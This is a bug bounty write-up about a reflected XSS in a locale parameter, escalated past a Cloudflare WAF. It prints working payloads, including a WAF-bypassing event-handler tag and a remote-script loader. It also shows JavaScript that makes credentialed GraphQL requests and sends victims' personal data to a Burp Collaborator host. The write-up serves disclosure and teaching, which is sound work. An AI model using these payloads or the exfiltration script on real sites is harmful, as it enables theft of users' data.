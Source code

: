 # Reflected XSS + WAF Bypass

Found a reflected XSS on a paid program, managed to bypass the WAF using PortSwigger's list of payloads. Eventually, demonstrated higher impact by showing that this endpoint did not have any CSP, which allowed me to load scripts into a user's browser to interact with other endpoints to exfiltrate a victim's data.

## Discovery

I was initially interested in how this company was registering accounts, proxying requests and looking at how accounts were created. I noticed that there were requests going to `company.com/locale?locale=en`.

I decided to change the parameter to `locale=evil`. To my surprise, my input was reflected.

![](../../../.gitbook/assets/reflected-xss-waf-image.png)

I decided to test some HTML payloads to see if it was rendered. I first tried using `meta` tags to see if redirection occurs:

```html
<meta http-equiv="refresh" content="0;url=https://evil.com/">
```

The final link was `company.com/locale?locale=HTML_PAYLOAD`. When visited, I was redirected to `evil.com`. This confirmed that HTML Injection was possible, and I was also able to inject other payloads:

```html
<a href="https://evil.com">Click me for money!</a>
```

![](../../../.gitbook/assets/reflected-xss-waf-image-1.png)

## Escalation to XSS

Trying to achieve XSS was the next step after HTML Injection. Using `<script>alert(1)</script>` and `<img src=x onerror=alert(1)>` resulted in 403s being returned due to the Cloudflare WAF. I knew that using a WAF as the final defence was not enough, because attackers could get around it.

The same thing applies for Content Security Policies (CSP) - if your CSP was the only thing stopping XSS payloads from working, it would still count as a valid finding. Check the browser console when testing for XSS!

Hence, I tried single payload possible from PortSwigger's XSS Cheat Sheet before trying to obfuscate my payload to see if it was blocking specific tags or event handlers.

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

I used Burp Intruder to do so, and eventually found one payload that was not blocked:

{% code overflow="wrap" %}

```html
<address oncontentvisibilityautostatechange=alert(1) style=display:block;content-visibility:auto>
```

{% endcode %}

![](../../../.gitbook/assets/reflected-xss-waf-image-2.png)

## Increasing Impact

This particular endpoint required users to be logged in before accessing, and **did not have any CSP**. Since `alert(1)` worked, the next step was to escalate it to an Account Takeover or perform other authenticated actions. The cookies had `HttpOnly` enabled, and I did not find any other endpoint that reflected cookie contents on the page that allowed for cookie stealing.

My initial idea was to change `alert(1)` to `fetch`. This sent requests to other endpoints, capturing data to be exfiltrated to my Burp Collaborator. This did not work because the payload was too long, and also certain characters were blocked by the WAF.

Eventually, I decided to host the script elsewhere using sites like `webhook.site` or `ssrf.cvssadvisor.com`. The XSS payload was modified to make the browser fetch and execute the remote script:

{% code overflow="wrap" %}

```html
<address oncontentvisibilityautostatechange="let s=document.createElement('script');s.src='PAYLOAD_WEBSITE_HERE';document.head.appendChild(s)" style="display:block;content-visibility:auto">
```

{% endcode %}

The above code worked because there was no CSP for this endpoint. This was the code hosted remotely (code has been heavily redacted):

```js
fetch('https://company.com/api/graphql', {
    method: 'POST',
    credentials: 'include',
    body: '{"query":"query User { REDACTED }'
})
.then(r => r.text())
.then(d => {
    new Image().src = 'https://burp-collaborator/data?response=' + btoa(d);
    setTimeout(() => {
        window.location.href = 'https://company.com';
    }, 5000);
})
.catch(e => {
    new Image().src = 'https://burp-collaborator/error?msg=' + btoa(e.toString());

    setTimeout(() => {
        window.location.href = 'https://company.com';
    }, 5000);
});
```

Since this endpoint required authentication, using the `credentials: 'include'` feature of `fetch` allowed for authenticated calls to be made. GraphQL was used by this company, and queries were sent to retrieve a user's personal data and send it to my BurpSuite Collaborator server. Afterwards, the user would be redirected to `company.com`.

## Conclusion

Thanks to the high impact of this XSS demonstrated, I was awarded the highest bounty for a P3 issue.